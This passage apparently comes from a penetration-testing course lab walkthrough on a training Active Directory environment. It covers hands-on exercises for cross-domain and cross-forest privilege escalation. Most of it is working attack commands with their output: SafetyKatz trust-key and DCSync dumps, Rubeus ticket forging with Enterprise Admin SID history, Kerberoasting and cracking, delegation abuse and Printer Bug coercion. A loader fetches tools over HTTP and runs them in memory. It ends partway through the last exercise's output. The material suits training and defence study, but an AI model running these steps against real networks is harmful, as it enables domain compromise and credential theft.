C:\Users\Administrator> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51
```

Note that we are looking for the `[In]` key for `us.techcorp.local` to `techcrop.local` trust.

```
C:\Users\Administrator> echo %Pwn%

lsadump::trust

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"

[SNIP]

mimikatz(commandline) # lsadump::trust /patch

[SNIP]

Current domain: US.TECHCORP.LOCAL (US / S-1-5-21-210670787-2521448726-163245708)

[SNIP]

 [  In ] US.TECHCORP.LOCAL -> TECHCORP.LOCAL 🔗
    * 4/27/2025 10:19:35 PM - CLEAR   - 63 ff c8 2b df 34 08 f4 9a a8 42 23 53 4e a8 3c 06 ba 8f b9 29 e6 3f b4 fc e7 47 12 a4 ff 6a 0d a9 dc 1d bd 84 61 e9 37 38 9a e7 c1 b3 fd 91 e4 56 e1 cf 60 3e 4c 34 0d 7c d7 9f 83 5d ee 90 a0 20 52 e3 05 03 df d6 83 33 4f c6 07 ac 14 cb 6d 06 79 df 98 ff b3 1b ba 6f f0 66 4c 97 fe d1 94 0e 9c cc 5a 59 a4 38 ae 75 32 e9 ce 1a 9f 22 1e 2c b7 bb 10 16 e5 43 e6 a0 ca 6b 46 24 64 4c df d7 cd ae e7 da 5b 80 3b d8 7c f0 f0 d1 fd 19 d9 7e 6a ca c6 00 96 8a 1b 5e 2a 0f 95 8e 77 df c4 35 11 04 3b a0 44 de 6c 17 d6 b6 bf f7 7c 7c 30 f8 77 68 18 b6 b3 d9 7e 24 98 d7 9f 68 9a d5 8d 7a 81 c3 ba 19 a0 19 f4 4f a3 1b 14 75 d1 5d 8c 11 e3 28 c1 99 40 47 3e e0 75 31 e9 cb b9 d3 19 66 76 0b 8d fc a7 85 85 fb da 09 b0 45 3b 99 e1
        * aes256_hmac       18573ee8650f3cd560b07dceefd2b5b95d8f47c9ff2b41a7913ab0ddfe7dfc84
        * aes128_hmac       e95348f6de7f67f7c0e02625331298e9
        * rc4_hmac_nt       bc11d80ff894ef9b8c38d85c13bf7063 🔑

[SNIP]
```

Let's forge a ticket with SID History of 'Enterprise Admins'.

Run the below command from an elevated shell on the student VM.

```
C:\Windows\system32> echo %Pwn%

silver

C:\Windows\system32> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /ldap /service:krbtgt/US.TECHCORP.LOCAL /rc4:bc11d80ff894ef9b8c38d85c13bf7063 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap

[SNIP]

[*] Action: Build TGS 🎟️

[SNIP]

[*] Domain         : US.TECHCORP.LOCAL (US)
[*] SID            : S-1-5-21-210670787-2521448726-163245708
[*] UserId         : 500 🎭
[*] Groups         : 544,512,520,513
[*] ExtraSIDs      : S-1-5-21-2781415573-3701854478-2406986946-519 👥
[*] ServiceKey     : BC11D80FF894EF9B8C38D85C13BF7063
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : BC11D80FF894EF9B8C38D85C13BF7063
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt 📌
[*] Target         : US.TECHCORP.LOCAL 🏛️

[SNIP]

[*] Forged a TGT 🎟️ for 'Administrator@us.techcorp.local'

[*] AuthTime       : 4/28/2025 9:42:34 AM
[*] StartTime      : 4/28/2025 9:42:34 AM
[*] EndTime        : 4/28/2025 7:42:34 PM
[*] RenewTill      : 5/5/2025 9:42:34 AM

[*] base64(ticket.kirbi):

doIF0TCCBc2gAwIBBaEDAgEWooIEvzCCBLthggS3MIIEs6ADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBG0wggRpoAMCARehAwIBA6KCBFsEggRXq4d7fIzV4AFwj1vwkWupgITXX+mUypsCCwvmodwOya7LZYAibQfe4ZIDuST4swTQmJvcBWmNJ+NXTVPNyVyyFoZrfGbitBXL1WqyqUPfmfBU8IWcjY5+sedn6Rg5EaP84S+u6nWmp8NNIGj3srw6/Xe3py8gWUBpqb4z5grXzwuF7Hu9b9dMRL/teHGgjx4iEupfgMtkzEc5wB+msQ2xQ86zItTaC+QI6Lnp3N96N5XjeIx9Nn4mcYBXZTX9KDVHxBjGLwwH304Vgg/XBT3DO4+AUVl0osOtY2Lh8EL/yZyNNQCKlT9b6Pv0W4IcaR6SuDjxsKInco6KtQVIbyZ5GW3nhIlLTIHlV/pkpXz+goNpublzFbbstWfIoGCrC1M3aKvaysdWOaaaapY8kL+dpA9U4Pj6d4YMydFxCNN99XfKLB1+6jECyv3vOR514Sw1uhoIVj10AKuYhz8F6tIoa6m1jahEOQzrsw2XaqYMXJ2kIp3lg520avDd0jmxizh+yE3s/zUhNjdAnMZL6np62chgv3HTwkCx6kdZug6Y0IuKtQLc1B7VOGTfmtGiZJcJbhGOevTbdsNwAws1OFLJqQS0NheJxjhJhL68+SK4TX2zkejPlfgZWfMXZtqp/qq16MpIT2yAG37EZ4BOm0Na2ih43Cq4X+1NlQTzzYyRqf070xaoPI8DIrEBEDN6KHPZNVSVzulU+nVGCc0qAEG4DGgQpy6X9/vkTtR86ctgha5c4QLDWfWA/3Nb2fNdzHShBUVMG5NygkYMb2hEOuExNdNaCYAuVdbK2+HM0aHR8erk/j9j2PVH/r2sbgkbmBEzvadd5cWa4Qkq0o5NiPKR+3s0Y8Sb1iwJ6tRHiYEdRceKtj0BgS2gL8NbmNMcJ1cZK+X+fFfhA4eWNXASTZvwSqmZHK5tKGwneLnga8peIa/y8AUxThkkzYWM2wGAtBQC5zKM100pC6UAjXKLlhfSPhsvtXAEkSXyBktgZJ1mXc9ILFcToZSI8TZzNchbtdfkcN/l2SyHiYYZPqNQqjy1quAlix8Xi4idRFp4X0VCPrn+o2bGO65kyruAK3YXbxGdQXNNxqGsiRNb7fa1yp0Cof1X7vi7Izf/iLNvqftgo64eo6vMm5XM5G+pChfC9glGPYHQtJqLJcZakepJ2NWhP55hBV7rq2V1bMnTh+q0ng0lN8jHLLv+dObKhlWVzyTZTx0aiJHPD596NheM85ytSj2/VsMp60Nswuxi7ixxONym0XSLA2XuBVY8sRdlBNqEWIafNAQn5X8xG9zUI1vNmrENqUkMzDmqJDUFi1Y7KQoEzr3Kfb1V01ZOOUPzk5f7Lp+wlzF77Yev1msWGjMX/6DjfMwBa73wmhDEZ6IMasSimxyjKBWnWJiNhV2BEo0vzMw6OM6pvjcfxLaPPuYLFnjbTE6HMSHEolDyvl8ngdm3jVzV67eWspnVwKfhLRVPV0n5Y9ae3qOB/TCB+qADAgEAooHyBIHvfYHsMIHpoIHmMIHjMIHgoBswGaADAgEXoRIEEACZhN5OkMFlRnKqlk/6am6hExsRVVMuVEVDSENPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjUwNDI4MTY0MjM0WqURGA8yMDI1MDQyODE2NDIzNFqmERgPMjAyNTA0MjkwMjQyMzRapxEYDzIwMjUwNTA1MTY0MjM0WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRVVMuVEVDSENPUlAuTE9DQUw=
```

Copy the base64 encoded ticket from above and use it in the following command.

```
C:\Windows\system32> echo %Pwn%

asktgs

C:\Windows\system32> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:CIFS/techcorp-dc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:doIF0TCCBc2gAwIBBaEDAgEWooIEvzCCBLthggS3MIIEs6ADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBG0wggRpoAMCARehAwIBA6KCBFsEggRXq4d7fIzV4AFwj1vwkWupgITXX+mUypsCCwvmodwOya7LZYAibQfe4ZIDuST4swTQmJvcBWmNJ+NXTVPNyVyyFoZrfGbitBXL1WqyqUPfmfBU8IWcjY5+sedn6Rg5EaP84S+u6nWmp8NNIGj3srw6/Xe3py8gWUBpqb4z5grXzwuF7Hu9b9dMRL/teHGgjx4iEupfgMtkzEc5wB+msQ2xQ86zItTaC+QI6Lnp3N96N5XjeIx9Nn4mcYBXZTX9KDVHxBjGLwwH304Vgg/XBT3DO4+AUVl0osOtY2Lh8EL/yZyNNQCKlT9b6Pv0W4IcaR6SuDjxsKInco6KtQVIbyZ5GW3nhIlLTIHlV/pkpXz+goNpublzFbbstWfIoGCrC1M3aKvaysdWOaaaapY8kL+dpA9U4Pj6d4YMydFxCNN99XfKLB1+6jECyv3vOR514Sw1uhoIVj10AKuYhz8F6tIoa6m1jahEOQzrsw2XaqYMXJ2kIp3lg520avDd0jmxizh+yE3s/zUhNjdAnMZL6np62chgv3HTwkCx6kdZug6Y0IuKtQLc1B7VOGTfmtGiZJcJbhGOevTbdsNwAws1OFLJqQS0NheJxjhJhL68+SK4TX2zkejPlfgZWfMXZtqp/qq16MpIT2yAG37EZ4BOm0Na2ih43Cq4X+1NlQTzzYyRqf070xaoPI8DIrEBEDN6KHPZNVSVzulU+nVGCc0qAEG4DGgQpy6X9/vkTtR86ctgha5c4QLDWfWA/3Nb2fNdzHShBUVMG5NygkYMb2hEOuExNdNaCYAuVdbK2+HM0aHR8erk/j9j2PVH/r2sbgkbmBEzvadd5cWa4Qkq0o5NiPKR+3s0Y8Sb1iwJ6tRHiYEdRceKtj0BgS2gL8NbmNMcJ1cZK+X+fFfhA4eWNXASTZvwSqmZHK5tKGwneLnga8peIa/y8AUxThkkzYWM2wGAtBQC5zKM100pC6UAjXKLlhfSPhsvtXAEkSXyBktgZJ1mXc9ILFcToZSI8TZzNchbtdfkcN/l2SyHiYYZPqNQqjy1quAlix8Xi4idRFp4X0VCPrn+o2bGO65kyruAK3YXbxGdQXNNxqGsiRNb7fa1yp0Cof1X7vi7Izf/iLNvqftgo64eo6vMm5XM5G+pChfC9glGPYHQtJqLJcZakepJ2NWhP55hBV7rq2V1bMnTh+q0ng0lN8jHLLv+dObKhlWVzyTZTx0aiJHPD596NheM85ytSj2/VsMp60Nswuxi7ixxONym0XSLA2XuBVY8sRdlBNqEWIafNAQn5X8xG9zUI1vNmrENqUkMzDmqJDUFi1Y7KQoEzr3Kfb1V01ZOOUPzk5f7Lp+wlzF77Yev1msWGjMX/6DjfMwBa73wmhDEZ6IMasSimxyjKBWnWJiNhV2BEo0vzMw6OM6pvjcfxLaPPuYLFnjbTE6HMSHEolDyvl8ngdm3jVzV67eWspnVwKfhLRVPV0n5Y9ae3qOB/TCB+qADAgEAooHyBIHvfYHsMIHpoIHmMIHjMIHgoBswGaADAgEXoRIEEACZhN5OkMFlRnKqlk/6am6hExsRVVMuVEVDSENPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjUwNDI4MTY0MjM0WqURGA8yMDI1MDQyODE2NDIzNFqmERgPMjAyNTA0MjkwMjQyMzRapxEYDzIwMjUwNTA1MTY0MjM0WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRVVMuVEVDSENPUlAuTE9DQUw=

[SNIP]

[*] Action: Ask TGS 🎟️

[SNIP]

  ServiceName              :  CIFS 📌/techcorp-dc.TECHCORP.LOCAL 🖥️
  ServiceRealm             :  TECHCORP.LOCAL
  UserName                 :  Administrator 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/28/2025 9:44:50 AM
  EndTime                  :  4/28/2025 7:42:34 PM
  RenewTill                :  5/5/2025 9:42:34 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  OXuzI0WWMDFL/ss8HUfYL6lxAYeRjwlIe78h7ZY0mlM=
```

Check if the ticket is granted.

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: Administrator @ US.TECHCORP.LOCAL
        Server: CIFS/techcorp-dc.TECHCORP.LOCAL @ TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/28/2025 9:44:50 (local)
        End Time:   4/28/2025 19:42:34 (local)
        Renew Time: 5/5/2025 9:42:34 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Finally, let's access the filesystem on `techcorp-dc`.

Run the below command from the command prompt where TGS is injected.

```
C:\Windows\system32> dir \\techcorp-dc.TECHCORP.LOCAL\c$

[SNIP]

 Directory of \\techcorp-dc.TECHCORP.LOCAL\c$ 📁

07/10/2019  09:00 AM    <DIR>          ExchangeSetupLogs
12/07/2020  03:51 AM    <DIR>          PerfLogs
07/02/2024  04:46 AM    <DIR>          Program Files
07/17/2019  11:02 PM    <DIR>          Program Files (x86)
04/27/2025  10:19 PM    <DIR>          Transcripts
07/18/2019  09:48 AM    <DIR>          Users
07/02/2024  04:46 AM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  11,206,041,600 bytes free
```

---
---

## Intra-Forest ExtraSID Attack

### Lab: Hands-On #21

#### Tasks

- Using DA access to `us.techcorp.local`, escalate privileges to EA or DA to the parent domain `techcorp.local` using the `krbtgt` hash of `us.techcorp.local`

#### Attack Path Steps

1. Leverage Domain Admin access on the child domain `us.techcorp.local`    
2. Forge a TGT using the previously obtained `krbtgt` hash of `us.techcorp.local`, including the SID History of the `Enterprise Admins` group from `techcorp.local`
3. Inject the forged ticket to impersonate an Enterprise Admin
4. Use the injected ticket to access privileged resources in the parent domain `techcorp.local`

#### Solution

- Using DA access to `us.techcorp.local`, escalate privileges to EA or DA to the parent domain `techcorp.local` using the `krbtgt` hash of `us.techcorp.local`

We already have the `krbtgt` hash of `us.techcorp.local`.
Let's create the inter-realm TGT and inject.

Run the below command from an elevated shell on the student VM.

```
C:\Windows\system32> echo %Pwn%

golden

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /id:500 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /ptt

[SNIP]

[*] Action: Build TGT 🎟️

[SNIP]

[*] Domain         : US.TECHCORP.LOCAL (US) 🏛️
[*] SID            : S-1-5-21-210670787-2521448726-163245708
[*] UserId         : 500 🎭
[*] Groups         : 513
[*] ExtraSIDs      : S-1-5-21-2781415573-3701854478-2406986946-519 👥
[*] ServiceKey     : 5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt 📌
[*] Target         : us.techcorp.local

[SNIP]

[+] Ticket successfully imported!
```

Check for the ticket.

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: Administrator 🎭 @ US.TECHCORP.LOCAL 🏛️
        Server: krbtgt 📌/us.techcorp.local @ US.TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/28/2025 9:49:30 (local)
        End Time:   4/28/2025 19:49:30 (local)
        Renew Time: 5/5/2025 9:49:30 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Try accessing resources on the root DC.

```
C:\Windows\system32> dir \\techcorp-dc.techcorp.local\c$

[SNIP]

 Directory of \\techcorp-dc.techcorp.local\c$ 📁

07/10/2019  09:00 AM    <DIR>          ExchangeSetupLogs
12/07/2020  03:51 AM    <DIR>          PerfLogs
07/02/2024  04:46 AM    <DIR>          Program Files
07/17/2019  11:02 PM    <DIR>          Program Files (x86)
04/27/2025  10:19 PM    <DIR>          Transcripts
07/18/2019  09:48 AM    <DIR>          Users
07/02/2024  04:46 AM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  11,205,832,704 bytes free
```

---
---

## Cross-Forest Kerberoasting Attack

### Lab: Hands-On #22

#### Tasks

- Find a service account in the `eu.local` forest and Kerberoast its password

#### Attack Path Steps

1. Enumerate trusted domains and search for service accounts with SPNs in the `eu.local` forest 
2. Identify a Kerberoastable service account (i.e., `storagesvc`) with an SPN (i.e., `MSSQLSvc/eu-file.eu.local`)
3. Request a TGS for the SPN and extract the hash for offline cracking
4. Crack the hash offline to recover the plaintext password of the service account

#### Solution

- Find a service account in the `eu.local` forest and Kerberoast its password

Enumerate any service account with SPN in all the trusts of our current forest.

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\AD\Tools> Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}

[SNIP]

DistinguishedName       : CN=storagesvc,CN=Users,DC=eu,DC=local
Enabled                 : True
GivenName               : storage
Name                    : storagesvc
ObjectClass             : user
ObjectGUID              : 041fedb0-a442-4cdf-af34-6559480a2d74
SamAccountName          : storagesvc 👤
ServicePrincipalName 📌 : {MSSQLSvc📌 /eu-file.eu.local 🖥️}
SID                     : S-1-5-21-3657428294-2017276338-1274645009-1106
Surname                 : svc
UserPrincipalName       : storagesvc
```

Once we have identified the target account, let's request a TGS.

```
C:\Users\studentuser51> echo %Pwn%

kerberoast

C:\Users\studentuser51> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:storagesvc /simple /domain:eu.local /outfile:C:\AD\Tools\euhashes.txt

[SNIP]

[*] Action: Kerberoasting

[SNIP]

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\euhashes.txt 🧩

[SNIP]
```

Run `klist` to check if the ticket is present.

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (3)

#2>     Client: studentuser51 @ US.TECHCORP.LOCAL
        Server: MSSQLSvc/eu-file.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 4/27/2025 14:10:02 (local)
        End Time:   4/28/2025 0:10:01 (local)
        Renew Time: 5/4/2025 14:10:01 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x200 -> DISABLE-TGT-DELEGATION
        Kdc Called: EU-DC.eu.local
```

Now, we can brute-force the hashes using John the Ripper.

```
C:\Users\studentuser51> C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\euhashes.txt

[SNIP]

Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Qwerty@123 🔑    (?)

[SNIP]
```

---
---

## Cross-Forest Constrained Delegation Abuse

### Lab: Hands-On #23

#### Tasks

- Enumerate users in the `eu.local` domain for whom Constrained Delegation is enabled
- Abuse the Delegation to execute DCSync attack against `eu.local`

#### Attack Path Steps

1. Enumerate user accounts in `eu.local` with Constrained Delegation enabled 
2. Identify `storagesvc` as a user with delegation rights on the Domain Controller `eu-dc`
3. Reuse the previously obtained password of `storagesvc` to compute its NTLM hash
4. Perform an S4U2Self + S4U2Proxy attack to impersonate `Administrator` and request a service ticket for LDAP on `eu-dc`
5. Use the impersonated ticket to perform a DCSync attack against `eu.local` and extract sensitive credentials

#### Solution

- Enumerate users in the `eu.local` domain for whom Constrained Delegation is enabled

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\AD\Tools> Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local

DistinguishedName           : CN=storagesvc,CN=Users,DC=eu,DC=local
msDS-AllowedToDelegateTo 📌 : {time/EU-DC.eu.local/eu.local, time/EU-DC.eu.local, time/EU-DC, time/EU-DC.eu.local/EU...} 📌
Name                        : storagesvc 👤
ObjectClass                 : user
ObjectGUID                  : 041fedb0-a442-4cdf-af34-6559480a2d74
```

Now, to be able to abuse Constrained Delegation that `storagesvc` user has on `eu-dc` we need either password or NTLM hash of it.

In a previous hands-on (#22) we already cracked `storagesvc`'s password in cleartext using Kerberos.

Use the below commands from the student VM.

```
C:\Users\studentuser51> echo %Pwn%

hash

C:\Users\studentuser51> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /password:Qwerty@123 /user:storagesvc /domain:eu.local

[SNIP]

[*] Action: Calculate Password Hash(es)

[SNIP]

[*] Input password             : Qwerty@123 🔑
[*] Input username             : storagesvc 👤
[*] Input domain               : eu.local
[*] Salt                       : EU.LOCALstoragesvc
[*]       rc4_hmac             : 5C76877A9C454CDED58807C20C20AEAC 🔑
[*]       aes128_cts_hmac_sha1 : 4A5DDDB19CD631AEE9971FB40A8195B8
[*]       aes256_cts_hmac_sha1 : 4A0D89D845868AE3DCAB270FE23BEDD442A62C4CAD7034E4C60BEDA3C0F65E04
[*]       des_cbc_md5          : 7F7C6ED00258DC57
```

Now we have the NTLM key of `storagesvc`.

Run the below command from an elevated command prompt as SafetyKatz, that we will use for DCSync, would need that.

```
C:\Windows\system32> echo %Pwn%

s4u

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt

[SNIP]

[*] Action: S4U 🎟️

[SNIP]

[*] Impersonating user 'Administrator' 🎭 to target SPN 'nmagent/eu-dc.eu.local'
[*] Final ticket will be for the alternate service 'ldap' 📌

[SNIP]
```

Check the ticket.

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: Administrator 🎭 @ EU.LOCAL
        Server: ldap 📌/eu-dc.eu.local @ EU.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/27/2025 14:20:08 (local)
        End Time:   4/28/2025 0:20:08 (local)
        Renew Time: 5/4/2025 14:20:08 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Note that we requested an alternate ticket for the LDAP service.

- Abuse the Delegation to execute DCSync attack against `eu.local`

Since we are impersonating the domain administrator of `eu.local` by abusing constrained delegation, we should now be able to run the DCSync attack against `eu.local`.

```
C:\Windows\system32> echo %Pwn%

lsadump::dcsync

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:eu\krbtgt /domain:eu.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:eu\krbtgt /domain:eu.local

[SNIP]

SAM Username         : krbtgt 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/12/2019 11:00:04 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 83ac1bab3e98ce6ed70c9d5841341538 🔑
    ntlm- 0: 83ac1bab3e98ce6ed70c9d5841341538
    lm  - 0: bcb73c3d2b4005e405ff7399f3ca2bf0

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : EU.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d 🔑

[SNIP]
```

```
C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:eu\administrator /domain:eu.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:eu\administrator /domain:eu.local

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/12/2019 10:57:59 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-500
Object Relative ID   : 500

[SNIP]

Credentials:
  Hash NTLM: fe422f818eb7e9c6de5862d94739c2e4 🔑

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : EU-DCAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d 🔑

[SNIP]
```

---
---

## Cross-Forest Unconstrained Delegation Abuse

### Lab: Hands-On #24

#### Tasks

- Abuse the Unconstrained Delegation on `us-web` to get Enterprise Admin privileges on `usvendor.local`

#### Attack Path Steps

1. Administrative access to the `us-web` host, which has Unconstrained Delegation enabled
2. Start TGT monitoring on `us-web` to capture tickets presented by incoming systems
3. Trigger an authentication from the `usvendor-dc.usvendor.local` to `us-web` exploiting the Printer Bug
4. Capture the TGT of the domain controller machine account `USVENDOR-DC$` via Unconstrained Delegation on `us-web`
5. Inject the captured ticket and perform a DCSync attack against `usvendor.local`


#### Solution

- Abuse the Unconstrained Delegation on `us-web` to get Enterprise Admin privileges on `usvendor.local`

⭐ If TGT Delegation is enabled across forests trusts, we can abuse the Printer Bug across two-way forest trusts as well.

This hands-on is kept separate from the previous ones because the impact is very high, but the commands included are the same.

Start a new process as `webmaster`, who has admin privileges on `us-web`.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  webmaster 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/28/2025 8:46:02 AM
  EndTime                  :  4/28/2025 6:46:02 PM
  RenewTill                :  5/5/2025 8:46:02 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  wsgX3XskDR/+cKUwIvMo0TO4HnHh58PqylddTvtaTYc=
  ASREP (key)              :  2A653F166761226EB2E939218F5A34D3D2AF005A91F160540DA6E4A5E29DE8A0
```

Copy `Loader.exe` to `us-web` to download and execute Rubeus in the memory and start monitoring for any authentication from `usvendor-dc`.

Run the below command in process running as `webmaster`.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\Loader.exe \\us-web\C$\Users\Public\Loader.exe /Y

[SNIP]

C:\Windows\system32> winrs -r:us-web cmd.exe

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\webmaster>
🚀

C:\Users\webmaster> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51
```

```
C:\Users\webmaster> echo %Pwn%

monitor

C:\Users\webmaster> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:usvendor-dc$ /interval:5 /nowrap

[SNIP]

[*] Action: TGT Monitoring 🎟️
[*] Target user     : usvendor-dc$ 🎭
[*] Monitoring every 5 seconds for new TGTs

[SNIP]
```

Next, run `MS-RPRN.exe` on the student VM to abuse the Printer Bug.
Note that this time we target `usvendor-dc`.

```
C:\AD\Tools> C:\AD\Tools\MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-web.us.techcorp.local

Target server attempted authentication and got an access denied.
If coercing authentication to an NTLM challenge-response capture tool (e.g. responder/inveigh/MSF SMB capture), this is expected and indicates the coerced authentication worked. 🔥
```

On the session where Rubeus is running, we can see.

```
[SNIP]

[*] 4/28/2025 3:47:28 PM UTC - Found new TGT:

  User                  :  USVENDOR-DC$@USVENDOR.LOCAL
  StartTime             :  4/28/2025 7:46:48 AM
  EndTime               :  4/28/2025 5:46:48 PM
